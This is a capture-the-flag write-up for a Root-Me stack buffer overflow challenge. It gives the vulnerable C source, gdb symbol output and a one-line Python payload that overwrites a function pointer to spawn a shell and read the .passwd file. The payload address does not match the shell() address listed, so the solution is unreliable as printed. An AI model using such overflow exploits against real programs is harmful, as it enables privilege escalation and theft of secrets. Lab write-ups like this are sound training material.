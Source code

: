 # ELF x86: Stack buffer overflow basic 2

[RootMe challenge: ELF x86 - Stack buffer overflow basic 2](https://www.root-me.org/en/Challenges/App-System/ELF-x86-Stack-buffer-overflow-basic-2?lang=en): An intermediate level to familiarize yourself with stack overflows.

Environment configuration:

```text
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 Yes 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 
```

Source code:

```text
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}
 
void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}
 
void main()
{
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```

----

```text
app-systeme-ch15@challenge02:~$ gdb ch15
GNU gdb (Ubuntu 8.1.1-0ubuntu1) 8.1.1
...
Reading symbols from ch15...(no debugging symbols found)...done.
```

```text
(gdb) info functions
All defined functions:
 
Non-debugging symbols:
0x08048350  _init
0x08048390  fgets@plt
0x080483a0  geteuid@plt
0x080483b0  puts@plt
0x080483c0  system@plt
0x080483d0  setreuid@plt
0x080483e0  __libc_start_main@plt
0x080483f0  __gmon_start__@plt
0x08048400  _start
0x08048440  _dl_relocate_static_pie
0x08048450  __x86.get_pc_thunk.bx
0x08048460  deregister_tm_clones
0x080484a0  register_tm_clones
0x080484e0  __do_global_dtors_aux
0x08048510  frame_dummy
0x08048516  shell
0x08048559  sup
0x08048584  main
0x080485de  __x86.get_pc_thunk.ax
0x080485f0  __libc_csu_init
---Type <return> to continue, or q <return> to quit---q
Quit
```

```text
app-systeme-ch15@challenge02:~$ cat <(python -c "print 'A'*128 + '\x64\x84\x04\x08'") - | ./ch15
cat .passwd
```

## Resources

* [Débordement de tampon - dans la pile](https://www.root-me.org/spip.php?article807)
* [François Boisson : Buffer Overflow ou explication de «une faille de type bufferoverflow ...](https://www.youtube.com/watch?v=u-OZQkv2ebw) (YouTube)
* [Stack Bug - Exploitation avancee de buffer overflow](https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/FR%20-%20Stack%20Bug%20-%20Exploitation%20avancee%20de%20buffer%20overflow.pdf)
* [Exploiting Stack Buffer Overflows in the Linux x86 Kernel](https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/EN%20-%20Exploiting%20Stack%20Buffer%20Overflows%20in%20the%20Linux%20x86%20Kernel.pdf)
* [64 Bits Linux Stack Based Buffer Overflow](https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/EN%20-%2064%20Bits%20Linux%20Stack%20Based%20Buffer%20Overflow.pdf)